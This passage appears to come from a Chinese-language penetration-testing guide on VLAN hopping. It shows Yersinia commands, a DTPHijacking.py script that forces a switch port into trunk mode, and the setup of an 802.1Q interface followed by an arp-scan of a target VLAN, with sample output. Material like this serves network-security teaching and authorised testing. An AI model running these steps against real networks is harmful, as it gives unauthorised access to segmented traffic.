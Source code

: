 如果发现网络漏洞，可以使用 _**Yersinia**_ 工具通过 DTP 协议“启用干道”，以便观察来自所有 VLAN 的数据包。
```bash
apt-get install yersinia #Installation
sudo apt install kali-linux-large #Another way to install it in Kali
yersinia -I #Interactive mode
#In interactive mode you will need to select a interface first
#Then, you can select the protocol to attack using letter "g"
#Finally, you can select the attack using letter "x"

yersinia -G #For graphic mode
```
![](<../../.gitbook/assets/image (269).png>)

要枚举VLAN，也可以使用脚本 [**DTPHijacking.py**](https://github.com/in9uz/VLANPWN/blob/main/DTPHijacking.py)**生成DTP Desirable帧。**在任何情况下都不要中断脚本。它每三秒注入一次DTP Desirable。**交换机上动态创建的干道通道仅持续五分钟。五分钟后，干道将断开。**
```
sudo python3 DTPHijacking.py --interface eth0
```
我想指出的是，**Access/Desirable (0x03)** 表示 DTP 帧是 Desirable 类型，这告诉端口切换到 Trunk 模式。并且 **802.1Q/802.1Q (0xa5)** 表示 **802.1Q** 封装类型。

通过分析 STP 帧，**我们了解到 VLAN 30 和 VLAN 60 的存在。**

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

#### 攻击特定 VLAN

一旦你知道 VLAN ID 和 IP 值，你可以 **配置一个虚拟接口来攻击特定 VLAN**。\
如果 DHCP 不可用，则使用 _ifconfig_ 设置静态 IP 地址。
```
root@kali:~# modprobe 8021q
root@kali:~# vconfig add eth1 250
Added VLAN with VID == 250 to IF -:eth1:-
root@kali:~# dhclient eth1.250
Reloading /etc/samba/smb.conf: smbd only.
root@kali:~# ifconfig eth1.250
eth1.250  Link encap:Ethernet  HWaddr 00:0e:c6:f0:29:65
inet addr:10.121.5.86  Bcast:10.121.5.255  Mask:255.255.255.0
inet6 addr: fe80::20e:c6ff:fef0:2965/64 Scope:Link
UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
RX packets:19 errors:0 dropped:0 overruns:0 frame:0
TX packets:13 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:0
RX bytes:2206 (2.1 KiB)  TX bytes:1654 (1.6 KiB)

root@kali:~# arp-scan -I eth1.250 10.121.5.0/24
```

```bash
# Another configuration example
modprobe 8021q
vconfig add eth1 20
ifconfig eth1.20 192.168.1.2 netmask 255.255.255.0 up
```
